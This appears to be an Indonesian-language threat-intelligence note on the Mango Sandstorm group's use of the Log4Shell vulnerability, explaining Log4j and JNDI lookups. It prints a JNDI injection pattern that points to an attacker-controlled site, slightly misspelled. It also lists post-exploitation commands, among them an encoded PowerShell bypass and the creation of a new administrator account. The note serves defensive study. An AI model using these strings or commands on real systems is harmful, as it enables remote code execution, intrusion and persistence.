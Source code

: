 ## 25 Agustus 2022, Mango Sandstorm

#### Ringkasan Singkat
Mango Sandstorm, sebelumnya dikenal karena menggunakan eksploitasi Log4j 2 untuk menyerang aplikasi VMware, baru-baru ini menargetkan aplikasi SysAid menggunakan teknik yang sama. Begitu mereka mendapatkan akses awal, kelompok ini mendirikan persistensi, bergerak lateral dalam jaringan menggunakan alat hacking kustom dan terkenal, dan mengambil kredensial.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/f67bb7ac-2cc3-4a6e-ab31-06b8db9ce991)
> [!Note]
> [MERCURY memanfaatkan kerentanan Log4j 2 dalam sistem yang belum dipatch untuk menargetkan organisasi Israel](https://www.microsoft.com/en-us/security/blog/2022/08/25/mercury-leveraging-log4j-2-vulnerabilities-in-unpatched-systems-to-target-israeli-organizations/)


## Kerentanan Log4j 2
Karena serangan Mango Sandstorm diinisiasi melalui kerentanan Log4j, mari telusuri lebih dalam serangan dan kerentanan tersebut.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/49b682a4-10a9-4b9b-be53-a0c80e00d01b)
> [Memperbaiki kerentanan Log4j](https://www.youtube.com/watch?v=ulOTK2pZLNU) | Microsoft Defender for Endpoint

#### Apa itu Log4j?
Log4j adalah perpustakaan logging Java yang banyak digunakan yang memungkinkan pengembang untuk mencatat peristiwa dan pesan dalam aplikasi mereka. Ini memberikan fleksibilitas dalam mengategorikan dan mengontrol output logging, memungkinkan debugging dan pemantauan aplikasi yang efektif.

#### Mengapa Log4j 2 dieksploitasi?
Log4j 2, versi terbaru dari Log4j, adalah kerangka logging Java yang banyak digunakan dan kuat. Namun, ia memiliki kerentanan kritis yang disebut Log4Shell (CVE-2021-44228, CVE-2021-45046, CVE-2021-44832), ***yang memungkinkan penyerang untuk menjalankan kode secara remote dengan mengeksploitasi fungsionalitas deserialisasi.***

#### Bagaimana penyerang mengeksploitasi Log4j 2 yang rentan secara tepat?
Penyerang mengeksploitasi sistem Log4j 2 yang rentan dengan mengirim data yang mengandung string tertentu. Log4j 2, saat mencoba memproses string ini, mengakses ***URL yang ditentukan melalui fitur JNDI Lookup***. Ini memungkinkan penyerang untuk men-download dan menjalankan kode Java berbahaya dalam sistem.
> [!Note]
> Java Naming and Directory Interface (JNDI) <br>
> Ini adalah API Java yang membantu aplikasi menemukan dan mengakses data dan sumber daya menggunakan nama.

#### URL yang ditentukan?
Berikut adalah pola serangan - **${indi:ldap//[situs penyerang]/a}**

misalnya
```
${indi:http//learningkijo.com/sub}
```

#### Perintah apa yang dieksekusi melalui eksploitasi Log4j 2?
```cmd
cmd.exe /C whoami
cmd.exe /C powershell -exec bypass -w 1 -enc UwB….
cmd.exe /C hostname
cmd.exe /C ipconfig /all
cmd.exe /C net user
cmd.exe /C net localgroup administrators
cmd.exe /C net user admin * /add
cmd.exe /C net localgroup Administrators admin /add
cmd.exe /C quser
```
## Referensi
1. [Panduan untuk mencegah, mendeteksi, dan mengejar eksploitasi kerentanan Log4j 2](https://www.microsoft.com/en-us/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/)
2. [Kerentanan RCE Log4j (CVE-2021-44228) Dijelaskan](https://www.youtube.com/watch?v=0-abhd-CLwQ)

#### Penafian
Pandangan dan pendapat yang dinyatakan di sini adalah milik penulis dan tidak selalu mencerminkan pandangan perusahaan.
